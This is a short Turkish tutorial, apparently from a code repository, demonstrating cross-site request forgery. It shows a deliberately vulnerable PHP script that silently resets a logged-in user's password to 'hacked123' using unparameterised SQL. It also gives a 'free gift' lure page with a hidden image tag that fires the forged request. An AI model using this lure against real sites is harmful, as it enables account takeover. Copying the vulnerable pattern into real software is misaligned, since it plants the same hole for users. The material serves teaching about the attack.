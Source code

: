 CSRF Exploit Örneği
Bu exploit, bir kullanıcının tarayıcısı aracılığıyla habersizce şifre değiştirme isteği göndermesini sağlayan bir saldırıyı simüle eder.

📌 Senaryo:

Kurban, oturum açmış durumda.

Saldırgan, kurbanın bilgilerini değiştirmek için GET isteğiyle çalışan bir sistem buluyor.

Kurban, saldırganın hazırladığı kötü niyetli HTML sayfasını ziyaret ederse, arka planda yetkisiz bir işlem gerçekleşir.

🔴 Savunmasız PHP Kodu (Hedef Uygulama)


```
<?php
session_start();
$conn = new mysqli("localhost", "kullanici", "sifre", "veritabani");

if ($conn->connect_error) {
    die("Bağlantı başarısız: " . $conn->connect_error);
}

// Kullanıcı oturum açmışsa işlemi gerçekleştir
if (isset($_SESSION['user_id'])) {
    $newPassword = "hacked123";  // Yeni şifre saldırgan tarafından belirleniyor
    $userId = $_SESSION['user_id'];

    // Şifreyi değiştirme sorgusu (CSRF'ye açık!)
    $sql = "UPDATE users SET password = '$newPassword' WHERE id = $userId";
    $conn->query($sql);

    echo "Şifreniz başarıyla değiştirildi!";
}

$conn->close();
?>

```

```
<html>
  <body>
    <h1>Ücretsiz Hediyeni Kazan!</h1>
    <img src="http://hedefsite.com/change-password.php" style="display:none;">
  </body>
</html>

```

 Ne Olur?

Kurban, bu sayfayı ziyaret ettiğinde, arka planda bir GET isteği gönderilir.

Kurban oturum açmışsa şifresi değiştirilir ve artık saldırgan yeni şifreyle giriş yapabilir!